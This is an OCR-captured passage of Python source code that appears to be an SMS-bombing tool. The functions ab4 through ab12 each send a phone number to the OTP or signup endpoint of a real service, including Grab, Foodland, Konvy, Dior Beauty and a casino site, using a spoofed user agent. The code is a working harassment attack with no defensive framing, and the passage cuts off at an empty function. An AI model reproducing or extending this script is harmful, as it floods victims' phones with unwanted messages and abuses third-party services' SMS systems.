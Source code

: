 

def ab4(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", headers={"User-Agent": useragent}, data={"phone": phone,"password":"123456789Az"})



def ab5(phone):

    post("https://api.1112delivery.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})



def ab6(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", headers={"User-Agent": useragent}, json={"grant_type":"otp","username": f"{phone[1:]}","password":"","client":"ecommerce"})



def ab7(phone):

    post("https://shop.foodland.co.th/login/generation", headers={"User-Agent": useragent}, data={"phone": phone})



def ab8(phone):

    post("https://api-shop.diorbeauty.hk/api/th/ecrm/sms_generate_code", headers={"User-Agent": useragent}, data={"number": f"{phone[1:]}"})



def ab9(phone):

    post("https://api.sacasino9x.com/api/RegisterService/RequestOTP", headers={"User-Agent": useragent}, json={"Phone": phone})



def ab10(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", headers={"User-Agent": useragent}, data={"phone": phone})



def ab11(phone):

    post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})



def ab12(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", headers={"User-Agent": useragent}, json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": f"{phone[1:]}"})



def ab13(phone):
